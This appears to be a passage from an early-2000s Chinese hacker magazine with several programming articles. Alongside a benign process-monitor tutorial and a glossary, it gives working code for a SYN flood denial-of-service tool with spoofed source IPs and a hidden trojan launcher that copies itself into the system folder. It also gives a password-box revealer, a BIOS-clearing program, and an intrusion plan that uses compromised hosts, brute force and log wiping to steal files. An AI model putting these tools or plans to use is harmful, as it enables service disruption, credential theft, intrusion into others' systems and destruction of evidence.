最后，我们再说说开篇时提到的 VBS 脚本病毒的防范方法。VBS 病毒的执行离不开 WSH，在带给人们便利的同时，WSH 也为病毒的传播留下可乘之机。所以要想防范 VBS 病毒，可以选择将 WSH 卸载，只要打开控制面板，找到“添加/删除程序”，点选“Windows 安装程序”，再用鼠标双击其中的“附件”一项，然后在打开的窗口中将“Windows Scripting Host”一项的“勾”去掉，连续点两次“确定”就可以将 WSH 卸载。或者，你也可以点击“我的电脑”→“查看”→“文件夹选项”，在弹出的对话框中，点击“文件类型”，然后删除 VBS、VBE、JS、JSE 文件后缀名与应用程序的映射，都可以达到防范 VBS 脚本病毒的目的。

## 黑客编程

### 一个清 BIOS 的小软件


在新年第一期中，发表了《BIOS密码破解两法》一文，但现在清空 BIOS 的软件网上有很多，而且使用起来的确很方便，但是这样对你的技术能提高吗？你能进步吗？用别人的软件，技术永远是作者的。好比你能很熟练地使用流光，但是你能明白它的功能是如何实现的呢？如果你想成长为一名真正的黑客，就应当自己动手，这样你的技术才会在日复一日的积累中提高。

我个人认为还是使用 debug 清空 BIOS 简单，原理是这样的，在 Win9X 以下的版本中运行 DOS，输入：

```text
c:\>debug
-o 70 16
-o 71 16
-q
```

解释一下这条命令：`-O` 是表示给端口写数据，也就是向 70、71 端口写点垃圾数据，不一定是 16，大家可以自己试试。

明白了意思，那么我们就可以自己动手编写一个小程序让它实现以上的功能。代码如下：

```asm
DATA SEGMENT
EDTION2 DB '本程序用来清空 bios',10,13
DB '——作者：怪狗',10,13
DB 'QQ:59280880',10,13
DB 'EMAIL:webmaster@zkbbs.net',10,13,'$'
BIOS2 DB '是否清空BIOS    Y/N:'
IN1 DB '请输入', '$'
ERR DB '输入错误，请重新运行此程序',10,13,'$'
Successful DB '恭喜BIOS成功',10,13,'$'
Nbey DB 'bey bey','$'
CRLF DB 10,13,'$'
DATA ENDS

CODE SEGMENT
ASSUME CS:CODE,DS:DATA
START:
MOV AX,DATA
MOV DS,AX
LEA DX,EDTION2
MOV AH,9
INT 21H
CALL CR
LEA DX,BIOS2
MOV AH,9
INT 21H
CALL CR
MOV AH,1
INT 21H
MOV BL,AL
CALL CR
CMP BL,'Y'
JZ Cbios
CMP BL,'y'
JZ Cbios
CMP BL,'N'
JZ Exit
CMP BL,'n'
JZ Exit
JMP ER
Cbios:
MOV DX,70H
MOV AL,16H
OUT DX,AL
MOV DX,71H
OUT DX,AL
LEA DX,Successful
MOV AH,9
INT 21H
JMP EXIT
ER:
LEA DX,ERR
MOV AH,9
INT 21H
Exit:
LEA DX,Nbey
MOV AH,9
INT 21H
MOV AH,4CH
INT 21H
CR PROC
LEA DX,CRLF
MOV AH,9
INT 21H
RET
CR ENDP
CODE ENDS
END START
```

程序代码如上所示，大家可以在下面这个地址 `http://www.zkbbs.net/html/guide.zip` 下载编译程序以及上面这段源代码。通过该编译程序即可将源程序编译成 `.exe` 文件。其中 masm 是汇编程序，用来将 ASM 的汇编源程序编译成 OBJ 文件。而 link 是链接程序，用来将 OBJ 文件编译成可执行的 EXE 文件。在压缩包中我已经把源代码编译成 EXE 文件，希望大家通过对比来进行操作。

下面我再把编译步骤简单给大家讲一下（例子中我们在 `C:\` 下进行编译）：

```text
C:\>masm debug1.asm      // 编译成OBJ文件
C:\>link debug1          // 把OBJ文件编译成EXE文件
C:\>debug1.exe           // 执行清空BIOS程序

*** debug1.exe程序执行会出现如下字样 ***
本程序用来清空BIOS
——作者：怪狗
QQ:59280880
EMAIL:webmaster@zkbbs.net

是否清空BIOS    Y/N: 请输入...
bey bey
```

注意：以上程序在 DOS/Win3.1/Win95/Win98/WinME 测试环境下通过运行，在 WIN2000 没有测试通过！


## 打造自己的系统进程监视器

马明臣

本文介绍了在 Windows98/ME/NT/2000 中，获取系统中正在运行的进程、线程及内存分配使用等信息的一般方法，详细说明了 Tool Help 库的原理，并给出了 C++ Builder 5.0 的范例程序。

### 概述

出于某种原因，许多用户都希望了解当前系统正在运行的程序及它们的详细信息。如：黑客程序通常需要在系统中驻留一些进程，我们可以枚举系统进程列表来了解当前正在运行的所有进程，从而查出系统中运行了哪些黑客程序，并利用终止进程功能关闭这些可疑进程。

在 Windows 系统中有很多方法可以实现枚举当前运行的进程。第一种方法是利用 Performance Data Helper 函数，它们包含在 PDH.DLL 中。

第二种方法是利用 Process Status Helper 函数，它们包含在 PSAPI.DLL 中。这两种方法都只适用于 Windows NT/2000，并且实现起来比较困难。

第三种方法就是利用 ToolHelp 库，在 Windows95/98/2000/NT/CE 中都可以使用此法。由于 ToolHelp 库提供的函数使用户更容易获取当前运行 Win32 应用程序的信息，这些函数简化了基于 Win32 工具的建立。编程时，头文件定义在 `TLHELP32.H` 中。

### ToolHelp 库函数简介

### 1、系统快照（Snapshot）

快照是 ToolHelp 函数的核心。一张快照是一个或多个下列驻留在系统内存中链表的当前状态的只读拷贝：进程、线程、模块和堆。使用 ToolHelp 函数的进程通过快照访问这些链表，而不是直接通过操作系统来访问。系统内存中的这些链表在以下情况下发生改变：进程开始或终止时；线程创建或撤消时；可执行模块装入或卸载时；堆创建或撤消时。

我们可以使用 `CreateToolhelp32Snapshot()` 函数来获得一张系统内存的快照。调用此函数时，通过指定一个或多个下列选项可以控制快照的内容：

- `TH32CS_SNAPHEAPLIST`
- `TH32CS_SNAPMODULE`
- `TH32CS_SNAPPROCESS`
- `TH32CS_SNAPTHREAD`

值 `TH32CS_SNAPHEAPLIST`、`TH32CS_SNAPMODULE` 是与进程相关的，指定它们时，快照包含指定进程的堆和模块链表。如果标识符为 0，则使用当前进程。即使传递了一个进程标识符给此函数，值 `TH32CS_SNAPTHREAD` 总是建立一个系统范围内的快照。

通过指定值 `TH32CS_SNAPALL` 和当前进程，可以枚举所有进程的堆或模块的状态。当进程使用快照结束时，应该通过 `CloseHandle()` 函数来撤消它，否则会引起内存泄露。

### 2、进程

一张快照包括进程链表，这包含了每个当前运行进程的信息。使用 `Process32First()` 可以检索链表中第一个进程的信息，接下来利用 `Process32Next()` 可以遍历进程链表。

`Process32First()` 和 `Process32Next()` 将快照中一个进程的信息填充到结构 `PROCESSENTRY32` 中去。利用函数 `Toolhelp32ReadProcessMemory()` 或 `VirtualQueryEx()` 可以读指定进程内存内容到一个缓冲区。`PROCESSENTRY32` 结构的成员 `th32ProcessID` 和 `th32ParentProcessID` 是进程标识符，可以被 Win32 API 使用。

### 3、线程

一张快照包括线程链表，这包含了每个当前运行进程的每个线程的信息。使用 `Thread32First()` 可以检索链表中第一个线程的信息，接下来利用 `Thread32Next()` 可以遍历线程链表。`Thread32First()` 和 `Thread32Next()` 将快照中一个线程的信息填充到结构 `THREADENTRY32` 中去。通过获得包含线程的快照，可以枚举指定进程的线程；遍历线程链表，保存与指定进程具有相同进程标识符的线程的信息。

`THREADENTRY32` 的成员 `th32ThreadID` 是线程标识符，可以被 Win32 API 使用。

### 4、模块

一张快照包括指定进程的模块链表，这包含了被此进程使用的每个模块、可执行文件或 DLL 的信息。使用 `Module32First()` 可以检索链表中第一个模块的信息，接下来利用 `Module32Next()` 可以检索链表中每个模块的信息。`Module32First()` 和 `Module32Next()` 将一个模块信息填充到结构 `MODULEENTRY32` 中去。

`MODULEENTRY32` 的成员 `th32ModuleID` 是模块标识符，它只对 Tool Help 函数有意义，它不是一个句柄，不能用于 Win32 API。

### 5、堆链表

一张快照包括指定进程的堆链表，这包含了与此进程有关的每个堆的鉴别信息和每个堆的细节信息。使用 `Heap32ListFirst()` 可以检索堆链表中第一个堆的标识符，接下来利用 `Heap32ListNext()` 可以遍历与进程有关的堆链表。

`Heap32ListFirst()` 和 `Heap32ListNext()` 将进程标识符、堆标识、描述堆的状态填充到结构 `HEAPLIST32` 中去。使用 `Heap32First()` 可以检索某堆的第一块内存信息，接下来用 `Heap32Next()` 可以检索同一个堆中后面内存块的信息。`Heap32First()` 和 `Heap32Next()` 将一个堆的适当块填充到结构 `HEAPENTRY32` 中去。

`HEAPENTRY32` 的成员 `th32HeapID` 是堆标识符，只对 Tool Help 函数有意义，这不是一个句柄，不能用于 Win32 API。

### 使用 ToolHelp 函数（C++ Builder 例程）

### 1、拍摄快照和查看所有正在运行的进程

下面示例演示了怎样获得一个运行进程的链表。首先自定义的 `ShowProcess()` 函数使用 `CreateToolhelp32Snapshot()` 拍摄系统当前运行进程的一张快照，然后，它使用 `Process32First()` 和 `Process32Next()` 沿着记录在快照中的链表向后走。

**注意：** 在使用 ToolHelp 函数时需要在程序头文件中加入 `#include <tlhelp32.h>`

```cpp
void __fastcall TForm1::ShowProcess(void)
{
    lvwProcess->Items->Clear(); // 清除列表视图中的所有信息
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == (HANDLE)-1) {
        Application->MessageBox("程序运行失败!", "错误", MB_OK + MB_ICONEXCLAMATION);
        return;
    }

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(pe);
    for (int i = Process32First(hSnapshot, &pe); i != 0; i = Process32Next(hSnapshot, &pe)) {
        // ...
        ListItem = lvwProcess->Items->Add();
        ListItem->Caption = File;                 // 文件名
        ListItem->SubItems->Add(IntToHex((int)pe.th32ProcessID, 4).UpperCase()); // 进程ID
        ListItem->SubItems->Add(Tmp);             // 进程优先级
        ListItem->SubItems->Add(IntToHex((int)pe.th32ParentProcessID, 4).UpperCase()); // 父进程ID
        ListItem->SubItems->Add(Tmp);             // 创建线程个数
        ListItem->SubItems->Add(Path);            // 文件路径
    }
}
```

```cpp
AnsiString Tmp((int)pe.th32ProcessID);
ListItem->SubItems->Add(Tmp); // 进程ID
...
CloseHandle(hSnapshot);
```

### 2、遍历模块链表

下面示例演示了怎样获得一个指定进程的模块链表。首先，自定义的 `ShowMoudle()` 函数取得指定进程信息，然后使用 `CreateToolhelp32Snapshot()` 拍摄一张指定进程所有模块的快照。接着，它使用 `Module32First()` 和 `Module32Next()` 沿着记录在快照中的链表向后走。

```cpp
void __fastcall TForm1::ShowMoudle(void)
{
    if (!lvwProcess->SelCount) return;
    AnsiString Handle = lvwProcess->Selected->SubItems->Strings[0];
    DWORD hProcess = (DWORD)Handle.ToInt();

    lvwMoudle->Items->Clear();
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, hProcess);
    if (hSnapshot == (HANDLE)-1) {
        Application->MessageBox("程序运行失败!", "错误", MB_OK + MB_ICONEXCLAMATION);
        return;
    }

    MODULEENTRY32 me;
    me.dwSize = sizeof(me);
    for (int i = Module32First(hSnapshot, &me); i != 0; i = Module32Next(hSnapshot, &me)) {
        // ...
        ListItem = lvwMoudle->Items->Add();
        ListItem->Caption = File;                 // 模块名
        ListItem->SubItems->Add(IntToHex((int)me.th32ModuleID, 4).UpperCase()); // 模块ID
        ListItem->SubItems->Add(Tmp);             // 模块大小
        ListItem->SubItems->Add(Tmp);             // 引用计数
    }
}
```

```cpp
AnsiString Tmp(me.GlbCntUsage);
ListItem->SubItems->Add(Tmp);

ListItem->SubItems->Add(Path);

CloseHandle(hSnapshot);
```

## 3、终止选中的进程

我们可以使用 `TerminateProcess()` 函数强行中止正在运行的程序。具体函数如下：

```cpp
void __fastcall TForm1::Kill1Click(void)
{
    if(!lvwProcess->SelCount) return;
    AnsiString ProcessID = lvwProcess->Selected->SubItems->Strings[5];
    DWORD ID = (DWORD)ProcessID.ToInt();
    HANDLE tProcess = OpenProcess(PROCESS_TERMINATE, false, ID);
    if(tProcess != NULL)
        if(TerminateProcess(tProcess, 1)) return;
    Application->MessageBoxA("操作失败", "失败", MB_OK | MB_ICONERROR);
}
```

本文提供的范例在 c++ builder 5.5 和 Windows95/98/Me 测试通过。可以用 c++ builder 5.5 新建工程文件，在 Form1 中加入一个 ListView 组件（用于显示正在运行的所有进程）并将其命名为 lvwProcess，把 ViewStyle 属性设为 vsReport。双击 ListView 组件的 Columns 属性，依次添加：

- 0-文件名
- 1-进程ID
- 2-优先权
- 3-父进程ID
- 4-线程个数
- 5-路径

接着再加入一个 ListView 组件（用于显示指定进程的模块信息），将其命名为 lvwModule，把它的 ViewStyle 属性设为 vsReport。双击 ListView 组件的 Columns 属性，依次添加：

- 0-模块名称
- 1-模块ID
- 2-模块大小
- 3-引用计数
- 4-总引用计数
- 5-模块文件名称

添加两个按钮分别把它们的 Caption 属性改为“查看进程”、“终止进程”，双击“查看进程”按钮加入 `ShowProcess()`；双击“终止进程”按钮添加 `Kill1Click()`，用于终止选中的进程。

接着在工程的 `.cpp` 文件中加入 `#include <tlhelp32.h>` 头文件。把前面介绍的函数 `ShowProcess()`、`ShowMoudle()`、`Kill1Click()` 都加入到 `.cpp` 文件中，并在 `.h` 头文件中进行定义。双击视图列表 lvwProcess 的 OnClick 事件加入代码：`ShowMoudle();` // 用于单击进程显示其模块信息。

参考文献：MSDN、Microsoft Platform SDK for Windows 2000、c++ builder5.0 开发人员指南等。

## 制作后台刺客木马

近墨者

通常点击了一个木马软件后，会出现窗口显示。但“远程控制”软件，并不像其它木马软件一样启动时没有动静，而是会出现一个与木马毫不相关的窗体。这款软件并不是用 EXE 捆绑机制将木马与其它程序捆绑为一个程序，而是在程序内部设置了两种启动方式。如果当前的运行路径不是系统的路径，那么就启动可见的正常模式；如果是系统路径，就启动不可见的木马模式。如果你是 VB 编程爱好者，那么不用 EXE 捆绑机，也能实现程序的捆绑功能，现在让我们一起来探讨。

### 一、程序思路

首先建立两个窗体，Form1 窗体和 Form2 窗体，Form1 窗体是可见的正常模式，在其中编写一些正常的代码，为了调试方便，这里只加入了一句弹出提示框语句。Form2 窗体是隐藏模式，在其中编写木马代码，这里也只加入一句弹出提示框语句。

需要说明的是程序的启动窗体是 Form1 窗体。

当程序启动时，先加载 Form1 窗体，在 Form_Load 中首先判断系统文件夹内是否有相关程序，如没有则拷贝当前程序到系统文件夹内，然后启动运行系统文件夹内的相关程序；如系统文件夹内存在该相关程序，那么就判断当前运行程序的路径是否位于系统路径内，如在系统路径内，就隐藏 Form1，激活 Form2 窗体；如不在系统路径内，就显示 Form1 窗体，不加载 Form2 窗体，同时运行系统文件夹内的相关程序。

这样就实现了只要启动这个程序，虽然显示的是一个不相干的窗体，但木马程序却已在后台悄悄运行。

### 二、源代码

1、Form1 窗体的代码：

```vb
Private Declare Function GetSystemDirectory Lib "kernel32" Alias _
    "GetSystemDirectoryA" (ByVal lpBuffer As String, ByVal nSize As Long) As Long

Dim Syspath As String
Dim len5 As Long

Private Sub Syspath1()
    Syspath = String(255, 0)
    len5 = GetSystemDirectory(Syspath, 256)
    Syspath = Left(Syspath, InStr(1, Syspath, Chr(0)) - 1)
End Sub

Private Sub Form_Load()
    On Error Resume Next
    Call Syspath1
    Dim Mumafile As String
    Dim Mumapath As String
    ' ...
    Mumafile = App.Path & "\" & App.EXEName & ".exe"

    If Mid(Mumafile, 4, 1) = "\" Then
        Mumafile = App.Path & App.EXEName & ".exe"
    Else
        Mumafile = App.Path & "\" & App.EXEName & ".exe"
    End If

    Mumapath = UCase(Syspath & "\Sysmuma.exe")
    If Dir(Mumapath) = "" Then
        FileCopy Mumafile, Mumapath
        Shell Mumapath
    End If

    If UCase(Mumafile) = UCase(Mumapath) Then
        Form1.Hide
        Unload Form1
        Form2.Hide
    Else
        Form1.Show
        MsgBox "这是正常窗体"
        Shell Mumapath
        If App.PrevInstance Then
            Unload Me
            End
        End If
    End If
End Sub
```

2、Form2 代码：

```vb
Private Sub Form_Load()
    If App.PrevInstance Then
        Unload Me
        End
    Else
        MsgBox "这是显示的隐藏窗体"
    End If
End Sub
```

上面这些代码需要生成程序后才能看到效果。当双击程序运行时，会弹出“这是正常窗体”的对话框，还会弹出“这是显示的隐藏窗体”对话框。如在系统文件夹内双击该程序，则只弹出“这是显示的隐藏窗体”对话框。明白了“远程控制者”的启动原理了吧！如在 Form2 中加入一句让进程隐藏的语句，那么下次启动计算机时，系统则自动加载该程序，并在后台隐藏运行。

**注：调试环境 VB6.0，Windows98。**

本文所介绍的方法只作研究，不得用于非法途径，否则造成的后果自负。

现在不少人对编写一个小程序来察看文本框里的密码已经有所了解。大概的编法是用 GetCursorPos 获取鼠标位置，再用 WindowFromPoint 获取鼠标指向的窗口 Handle，再发送一条 `WM_GETTEXT`，获取密码。程序如下（WinAPI 函数可用 VB 附带的 API 浏览器）：

```vb
Create Text1 object as Text
Create Timer1 object as Timer  Interval=50

Private Declare Function WindowFromPoint Lib "user32" (ByVal xPoint As Long, ByVal yPoint As Long) As Long
Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long
Private Declare Function GetCursorPos Lib "user32" (lpPoint As POINTAPI) As Long

Private Type POINTAPI
    x As Long
    y As Long
End Type

Private Const WM_GETTEXTLENGTH = &HE
Private Const WM_GETTEXT = &HD
Private Const WM_CLOSE = &H10
Private Const WM_DESTROY = &H2

Private Sub Timer1_Timer()
    Dim p As POINTAPI, s As String, l As Integer, hwnd As Long
    GetCursorPos p
    hwnd = WindowFromPoint(p.x, p.y)
    l = SendMessage(hwnd, WM_GETTEXTLENGTH, 0, 0)
    s = Space(l)
    SendMessage hwnd, WM_GETTEXT, l, ByVal s
    Text1 = s
End Sub
```

这个程序在 WindowsMe/9x 下都通过，但到了 XP 也许你获取的只是“”（不要试 VB 里的控件，试一试 QQ 你就知道），这是为什么呢？

大家是否有用过 iOpus Password Recovery XP，这个软件可以在 XP 下获取密码（不过要注册才能看超过 3 位的密码），包括 QQ，它是怎么实现的呢？

我们可以用 Spy++（这是一个很好的消息察看软件，VS.NET 附带的）。你可以发现 iOpus 也是用 `WM_GETTEXT` 来获取密码的，但为什么同样是 `WM_GETTEXT`，一个可以获取，另一个却不行呢？

大家仔细看文本框的 WindowsStyle，比较一下，原来密码的文本框多了一个 `ES_PASSWORD` 属性，如果我们把 `ES_PASSWORD` 属性去掉，不就可以获取密码吗？OK! LET’S GO!

先声明 WinAPI：

```vb
Private Declare Function GetWindowLong Lib "user32" Alias "GetWindowLongA" (...)
Private Const GWL_STYLE = (-16)
Private Declare Function SetWindowWord Lib "user32" (...)
Private Const ES_PASSWORD = &H20&
Private PassFlg As Boolean
...
If (sty And ES_PASSWORD) = ES_PASSWORD Then
    PassFlg = True
    sty = sty - ES_PASSWORD
    SetWindowWord hwnd, GWL_STYLE, sty
End If
```

```vb
' (2) 恢复加密代码
If PassFlg = True Then
    sty = sty + ES_PASSWORD
    SetWindowWord hwnd, GWL_STYLE, sty
End If
```

大功告成，这个程序就可实现 WinXP 下获取密码的功能了，不用钱的哦！

> **100% 注意**  
> WindowFromPoint 在 XP 下工作好像不是很正常，有些 Text 的 Handle 获取不了，不过有经验的高手能解决这个问题。

以上程序在 WindowsXP、WindowsME、VB 6.0 下通过。

## 写 SYN Flood 攻击程序

合夕

上一期的 X 档案为大家介绍了 SYN Flood 攻击的原理，下面我就介绍一下如何写一个属于自己的 SYN Flood 攻击程序。

首先，你要懂得一点 C/C++ 的知识……下面看看 SYN Flood 程序（C++）：

```cpp
#include <iostream.h>
#include <conio.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdlib.h>
#pragma comment(lib,"ws2_32.lib")

#define SEQ 0x28376839
#define STATUS_FAILED 0xFFFF

typedef struct _iphdr {
    unsigned char h_verlen;
    unsigned char tos;
    unsigned short totalLen;
    unsigned short ident;
    unsigned short fragAndFlags;
    unsigned char ttl;
    unsigned char proto;
    unsigned short checksum;
    unsigned int sourceIP;
    unsigned int destIP;
} IP_HEADER;

unsigned long saddr;
unsigned long daddr;
char mbz;
char ptcl;
unsigned short tcpl;
tcp_header;

typedef struct _tcphdr {
    USHORT th_sport;
    USHORT th_dport;
    unsigned int th_seq;
    unsigned int th_ack;
    unsigned char th_lenres;
    unsigned char th_flag;
    USHORT th_win;
    USHORT th_sum;
    USHORT th_urp;
} TCP_HEADER;

// CheckSum：计算校验和的子函数。这是一个普通的计算校验和的函数……
USHORT checksum(USHORT* buffer, int size)
{
    unsigned long cksum = 0;
    while(size > 1) {
        cksum += *buffer++;
        ...
    }

    size -= sizeof(USHORT);
    ...
    if(size) {
        cksum += *(UCHAR*)buffer;
    }
    cksum = (cksum >> 16) + (cksum & 0xffff);
    cksum += (cksum >> 16);
    return (USHORT)(~cksum);
}

void usage() // 初始信息函数
{
    cout << "Usage: syn FAKE_IP REMOTE_IP PORT" << endl;
}

// SynFlood 子函数...
void dos(char *fakeIP, char *remoteIP, int port)
{
    cout << "Starting SYN Flood..." << endl;
    Sleep(1500);
    int datasize, ErrorCode, flag, counter, FakeIpNet, FakeIpHost;
    int TimeOut = 2000, SendSEQ = 0;
    char SendBuf[128] = {0};
    WSADATA wsaData;
    SOCKET SockRaw = (SOCKET)NULL;
    struct sockaddr_in DestAddr;
    IP_HEADER ip_header;
    TCP_HEADER tcp_header;

    if((ErrorCode = WSAStartup(MAKEWORD(2,1), &wsaData)) != 0){
        cout << "WSAStartup failed! " << ErrorCode << endl;
        ExitProcess(STATUS_FAILED);
    }

    SockRaw = WSASocket(AF_INET, SOCK_RAW, IPPROTO_RAW, NULL, 0, WSA_FLAG_OVERLAPPED);
    if(SockRaw == INVALID_SOCKET){
        cout << "WSASocket() failed! " << WSAGetLastError() << endl;
        ExitProcess(STATUS_FAILED);
    }

    flag = TRUE;
    ErrorCode = setsockopt(SockRaw, IPPROTO_IP, IP_HDRINCL, (char*)&flag, sizeof(int));
    if(ErrorCode == SOCKET_ERROR)
        cout << "Set IP_HDRINCL Error!\n" << endl;

    __try{
        ErrorCode = setsockopt(SockRaw, SOL_SOCKET, SO_SNDTIMEO, (char*)&TimeOut, sizeof(TimeOut));
        if(ErrorCode == SOCKET_ERROR){
            cout << "Failed to set send TimeOut! " << WSAGetLastError() << endl;
            __leave;
        }

        memset(&DestAddr, 0, sizeof(DestAddr));
        DestAddr.sin_family = AF_INET;
        DestAddr.sin_addr.s_addr = inet_addr(remoteIP);
        FakeIpNet = inet_addr(fakeIP);
        FakeIpHost = ntohl(FakeIpNet);

        // 填充IP首部
        ...
    }
}

ip_header.h_verlen = (4<<4 | sizeof(ip_header)/sizeof(unsigned long));
// 高四位IP版本号，低四位首部长度
ip_header.total_len = htons(sizeof(IP_HEADER)+sizeof(TCP_HEADER));
ip_header.ident = 1;
ip_header.frag_and_flags = 0;
ip_header.ttl = 128;
ip_header.proto = IPPROTO_TCP;
ip_header.checksum = 0;
ip_header.sourceIP = htonl(FakeIpHost+SendSEQ);
ip_header.destIP = inet_addr(remoteIP);

// 填充TCP首部
tcp_header.th_sport = htons(7000);
tcp_header.th_dport = htons(port);
tcp_header.th_seq = htonl(SEQ+SendSEQ);
tcp_header.th_ack = 0;
tcp_header.th_lenres = (sizeof(TCP_HEADER)/4<<4|0);
tcp_header.th_flag = 2;   // SYN
tcp_header.th_win = htons(16384);
tcp_header.th_urp = 0;
tcp_header.th_sum = 0;

// 填充TCP伪首部
psd_header.saddr = ip_header.sourceIP;
psd_header.daddr = ip_header.destIP;
psd_header.mbz = 0;
psd_header.ptcl = IPPROTO_TCP;
psd_header.tcpl = htons(sizeof(tcp_header));

cout << "Sending Buffer! Ctrl+C to Quit." << endl;
while(1){
    for(counter = 0; counter < 10240; counter++){
        if(SendSEQ++ == 65536) SendSEQ = 1;

        ip_header.checksum = 0;
        ip_header.sourceIP = htonl(FakeIpHost+SendSEQ);

        tcp_header.th_seq = htonl(SEQ+SendSEQ);
        tcp_header.th_sum = 0;

        psd_header.saddr = ip_header.sourceIP;

        memcpy(SendBuf, &psd_header, sizeof(psd_header));
        memcpy(SendBuf + sizeof(psd_header), &tcp_header, sizeof(tcp_header));
        tcp_header.th_sum = checksum((USHORT*)SendBuf, sizeof(psd_header)+sizeof(tcp_header));

        memcpy(SendBuf, &ip_header, sizeof(ip_header));
        memcpy(SendBuf + sizeof(ip_header), &tcp_header, sizeof(tcp_header));
        memset(SendBuf + sizeof(ip_header) + sizeof(tcp_header), 0, 4);
        datasize = sizeof(ip_header) + sizeof(tcp_header);
        ip_header.checksum = checksum((USHORT*)SendBuf, datasize);
        memcpy(SendBuf, &ip_header, sizeof(ip_header));

        ErrorCode = sendto(SockRaw, SendBuf, datasize, 0, (struct sockaddr*)&DestAddr, sizeof(DestAddr));
        if(ErrorCode == SOCKET_ERROR){
            cout << "Send Error: " << GetLastError() << endl;
            ExitProcess(STATUS_FAILED);
        }
    }
}
```

```cpp
// ...
// End of for
cout << "10240 byte have been sent" << endl; // 已发送10240字节
// 循环结束
// End of if

finally
if (Sockraw != INVALID_SOCKET) closesocket(Sockraw);
WSACleanup();

// 主函数
int main(int argc,char **argv)
{
    if(argc!=4) // 检查参数是否齐全
    ...
}
```

```cpp
usage();
return -1;
...
dos(argv[1],argv[2],atoi(argv[3])); // 调用dos函数进行攻击
return 0;
```

此程序在 Win2000 Server + VC6.0 调试通过，生成的 exe 文件 180k，可以用 ASPack 压缩一下，可以压缩到 35k。

注：光盘中附：syn.cpp（源码）、syn.exe + ASPack.rar（exe 文件压缩）、ASPack。

以上程序仅作为技术研究之用，希望大家在提高技术的同时也能保持头脑清醒。

## 黑客术语一点通

**“反弹端口”原理：** 服务端（被控制端）主动连接客户端（控制端）。为了隐藏起见，监听端口一般开在 80（提供 HTTP 服务的端口）。这样，即使用户使用端口扫描软件检查自己的端口，也难以发现。而控制端发给服务端的数据是通过一个第三方空间来实现的，一般用一个主页空间，控制端通过 FTP 写主页空间上的一个文件，而服务端定期用 HTTP 协议读取这个文件的内容，当发现客户端让自己开始连接时，就主动连接。这样，控制端就可以穿过防火墙，甚至还能访问局域网内部的电脑。

**CMD：** 是一个所谓命令行控制台。有两条进入该程序的通道：第一，鼠标点击“开始→运行”，在出现的编辑框中键入“cmd”，然后点击“确定”；第二，在启动 Windows 2000 的时候，按 F8 进入启动选择菜单，移动光条或键入数字至安全模式的命令行状态。出现的窗口是一个在 Win9x 系统常见的那种 MS-DOS 方式的界面。尽管微软把这个工具当做命令解释器一个新的实例，但使用方法却和原来的 DOS 没有区别。

**软件加壳：** “壳”是一段专门负责保护软件不被非法修改或反编译的程序。它们一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务。经过加壳的软件在跟踪时已无法看到其真实的十六进制代码，因此可以起到保护软件的目的。

**嗅探器：**（sniffer）就是能够捕获网络报文的设备。嗅探器的正当用处在于分析网络的流量，以便找出所关心网络中潜在的问题。

**软件脱壳：** 顾名思义，就是利用相应的工具，把在软件“外面”起保护作用的“壳”程序去除，还文件本来面目，这样再修改文件内容就容易多了。

**蜜罐（Honeypot）：** 是一个包含漏洞的系统，它模拟一个或多个易受攻击的主机，给黑客提供一个容易攻击的目标。由于蜜罐没有其它任务需要完成，因此所有连接的尝试都应被视为可疑的。蜜罐的另一个用途是拖延攻击者对其真正目标的攻击，让攻击者在蜜罐上浪费时间。与此同时，最初的攻击目标受到了保护，真正有价值的内容将不受侵犯。

**蠕虫病毒：** 它利用了 Windows 系统的开放性特点，特别是 COM 到 COM+ 的组件编程思路，一个脚本程序能调用功能更大的组件来完成自己的功能。以 VB 脚本病毒为例，它们都是把 VBS 脚本文件加在附件中，使用 *.htm.vbs 等欺骗性的文件名。蠕虫病毒的主要特性有：自我复制能力、很强的传播性、潜伏性、特定的触发性、很大的破坏性。

**路由器（Routers）：** 是用来连接不同子网的中枢，它们工作于 OSI 7 层模型的传输层和网络层。路由器的基本功能就是将网络信息包传输到它们的目的地。一些路由器还有访问控制列表（ACLs），允许将不想要的信息包过滤出去。许多路由器都可以将它们的日志信息注入到 IDS 系统中，提供有关被阻挡访问网络企图的宝贵信息。

**缓冲区溢出：** 攻击者向一个地址区输入这个区间存储不下的大量字符。在某些情况下，这些多余的字符可以作为“执行代码”来运行，因此足以使攻击者不受安全措施限制地获得计算机的控制权。

## 打造属于自己的黑客兵器

阿吉

不会编程，成不了黑客？深思……

学习黑客技术已有许多年时间了，可自己仍在菜鸟的行列中徘徊，除了能在肉鸡上干些偷鸡摸狗的勾当，实在不知道自己还能做什么了。每当从电影、电视中看到黑客前辈们深厚的功底、神秘的背影，就羡慕得五体投地。羡慕的同时，想想自己什么时候能编出厉害的工具呢？

经过不断探索并查看资料，我发现优秀工具就在身边。虽然我们不具备高超的网络编程技术，但只要自己动些脑子，把已有的黑客工具拼凑起来，并稍加改造，就可为自己打造一个顺手的兵器。

“安全第一”，当然不能用自己的机器扫了。难道把扫描器传到肉鸡上去扫么？可以啊，也有许多人用这种方法，但这不是最好的。我建议大家还是用流光的 SENSOR 功能，来避免传扫描文件时的繁琐操作。找到一个肉鸡后（图1），马上给他安装 SENSOR（图2）。给肉鸡安装后，就可用它来扫别人了，如图3。

### 任务

我们的任务是破解 M 国一台超级服务器，进而为偷取档案文件做准备。

- 原则：我的终身信条——安全第一，不让任何人知道我的 IP。
- 所需知识：dat 文件编写、菜鸟必备的入侵经验。
- 所需硬件：一台能联网的电脑（系统 Win2K 以上）、稳定肉鸡若干台（当然越多越好啦）。
- 所需软件：SMBCRACK、PSEXEC、ELSAVE。

### 说明

SMBCRACK 是经典弱口令破解软件；PSEXEC 可通过本地系统执行远程主机命令；ELSAVE 是清除远程主机“程序”“系统”“安全”日志的软件。


### 思路

- 1. 找到若干肉鸡，制作字典文件。
- 2. 与他们自动建立 IPC$ 连接，把相关文件、程序送入每个肉鸡目录。
- 3. 通过远程控制，让多台肉鸡对同一个目标主机进行暴力破解。
- 4. 获取结果后，自动清除肉鸡上的所有日志，删除 IPC$ 连接，安全撤离现场。

## 第一步 扫描肉鸡

